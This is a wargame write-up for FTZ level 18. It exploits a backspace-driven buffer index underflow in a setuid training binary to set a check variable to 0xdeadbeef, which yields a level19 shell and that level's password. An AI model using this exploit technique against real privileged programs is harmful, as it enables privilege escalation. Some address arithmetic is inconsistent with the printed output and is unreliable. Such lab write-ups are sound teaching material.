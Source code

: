 # Level18

## This level's goal
- Pointer move

***

```
[level18@ftz level18]$ ls -l
-rwsr-x---    1 level19  level18      6225 Jan 25  1999 attackme
-rw-r-----    1 root     level18      1272 Jan 25  1999 hint

[level18@ftz level18]$ cat hint

#include <stdio.h>
#include <sys/time.h>
#include <sys/types.h>
#include <unistd.h>
void shellout(void);
int main()
{
  char string[100];
  int check;
  int x = 0;
  int count = 0;
  fd_set fds;
  printf("Enter your command: ");
  fflush(stdout);
  while(1)
    {
      if(count >= 100)
        printf("what are you trying to do?\n");
      if(check == 0xdeadbeef)
        shellout();
      else
        {
          FD_ZERO(&fds);
          FD_SET(STDIN_FILENO,&fds);

          if(select(FD_SETSIZE, &fds, NULL, NULL, NULL) >= 1)
            {
              if(FD_ISSET(fileno(stdin),&fds))
                {
                  read(fileno(stdin),&x,1);
                  switch(x)
                    {
                      case '\r':
                      case '\n':
                        printf("\a");
                        break;
                      case 0x08:
                        count--;
                        printf("\b \b");
                        break;
                      default:
                        string[count] = x;
                        count++;
                        break;
                    }
                }
            }
        }
    }
}

void shellout(void)
{
  setreuid(3099,3099);
  execl("/bin/sh","sh",NULL);
}
```

```
[level18@ftz tmp]$ gdb /home/level18/attackme
(gdb) disass main
0x08048553 <main+3>:    sub    $0x100,%esp

[level18@ftz tmp]$ cat distance.c

#include <stdio.h>
#include <sys/time.h>
#include <sys/types.h>
#include <unistd.h>
void shellout(void);
int main()
{
  char string[100];
  int check;
  int x = 0;
  int count = 0;
  fd_set fds;
  printf(" &string:%p\n &check:%p\n &x:%p\n &count:%p\n &fds:%p\n", string, &check, &x, &count, &fds);
  printf(" fds's size : %d\n", sizeof(fds));
}

[level18@ftz tmp]$ gcc distance.c -o distance
[level18@ftz tmp]$ ./distance
 &string: 0xbfffe8e0
 &check:  0xbfffe8dc
 &x:      0xbfffe8d8
 &count:  0xbfffe8d4
 &fds:    0xbfffe850
 fds's size : 128
```

As above, total size(x100) means 256 bytes.

&string - &check = 0xbfffefe0 - 0xbfffefdc = 0x4 (4bytes)   
&check  - &x     = 0xbfffefdc - 0xbfffefd8 = 0x4 (4bytes)   
&x      - &count = 0xbfffefd8 - 0xbfffefd4 = 0x4 (4bytes)   
&count  - &fds   = 0xbfffefd4 - 0xbfffef50 = 0x84(132bytes)   
dummy1 = 132bytes - 128bytes = 4bytes   
dummy2 = 265 - ( 128 + 4 + 4 + 4 + 100 ) = 16bytes - 4bytes(SFP) = 12bytes

fds(128bytes) + dummy1(4bytes) + count(4bytes) + x(4bytes) + check(4bytes) + string(100bytes) + dummy2(12bytes) + SFP(4bytes) + RET(4bytes)

```
if(FD_ISSET(fileno(stdin),&fds))
{
  read(fileno(stdin),&x,1);
  switch(x)
  {
    case '\r':
    case '\n':
      printf("\a");
      break;
    case 0x08:
    count--;
    printf("\b \b");
    break;
    default:
      string[count] = x;
      count++;
      break;
  }
}
```
The point is that you need to input deadbeef in the check to get sh.

In the hint, I understood string[count] will be --count if input is 0x08.

So, I will move string[]'s pointer and then input deafbeef in the check.

```
[level18@ftz level18]$ (python -c 'print "\x08\x08\x08\x08"+"\xef\xbe\xad\xde"'; cat) | ./attackme
Enter your command:
id
uid=3099(level19) gid=3098(level18) groups=3098(level18)

my-pass
Level19 Password is "swimming in pink".
```
